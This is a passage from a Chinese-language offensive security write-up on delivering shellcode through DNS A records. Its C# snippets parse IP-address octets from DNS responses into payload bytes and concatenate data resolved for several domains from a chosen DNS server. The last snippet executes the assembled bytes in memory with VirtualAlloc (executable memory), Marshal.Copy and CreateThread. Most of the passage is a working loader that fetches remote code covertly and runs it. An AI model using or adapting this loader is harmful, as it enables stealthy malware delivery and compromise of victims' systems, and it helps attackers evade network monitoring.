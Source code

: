   
排序ip数据

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    List<int> Keys = new List<int>();List<string> Values = new List<string>();foreach (var item in A_Records){    int key = int.Parse(item.Split('.')[3]);    Keys.Add(key);    Values.Add(item);}var dict = new Dictionary<int, string>();for (int i = 0; i < Keys.Count; i++)    dict.Add(Keys[i], Values[i]);Keys.Sort();List<string> sortedVals = new List<string>();for (int i = 0; i < Keys.Count; i++){    sortedVals.Add(dict[Keys[i]]);}

  
还原出payload字节数组

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    byte[] XxXPayload = new byte[sortedVals.Count * 3];Int32 Xnumber = 0;for (int i = 0; i < sortedVals.Count; i++){    string[] temp = sortedVals[i].Split('.');    XxXPayload[Xnumber] = Convert.ToByte(temp[0]);    XxXPayload[Xnumber + 1] = Convert.ToByte(temp[1]);    XxXPayload[Xnumber + 2] = Convert.ToByte(temp[2]);    Xnumber++;    Xnumber++;    Xnumber++;}

  
经过这样4步就能得到解析一个域名的DNS A记录。那如果是payload的数据过长，我们采用的多域名解析，就还要将后面的域名DNA
A记录解析数据拼接起来才是完整的payload数据。 多域名解析，拼接完整payload

  *   *   *   *   *   *   * 

    
    
    List<byte> data = new List<byte>();byte[] data1 = __nslookup("Microsoft.com", dns_server);data.AddRange(data1);byte[] data2 = __nslookup("Google.com", dns_server);if(data2 != null)    data.AddRange(data2);byte[] _Exfiltration_DATA_Bytes_A_Records = data.ToArray();

  
通过上面5步，我们就可以获得完整、准确的payload数据。 执行payload

  *   *   *   *   *   *   * 

    
    
    UInt32 funcAddr = VirtualAlloc(0, (UInt32)_Exfiltration_DATA_Bytes_A_Records.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);Marshal.Copy(_Exfiltration_DATA_Bytes_A_Records, 0, (IntPtr)(funcAddr), _Exfiltration_DATA_Bytes_A_Records.Length);IntPtr hThread = IntPtr.Zero;UInt32 threadId = 0;IntPtr pinfo = IntPtr.Zero;hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);WaitForSingleObject(hThread, 0xFFFFFFFF);

  

##  **3.4 利用结果**

  

生成DNS A记录
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228190000.png)  
启动dns解析服务  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228190001.png)  
运行解析结果
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228190002.png)  
  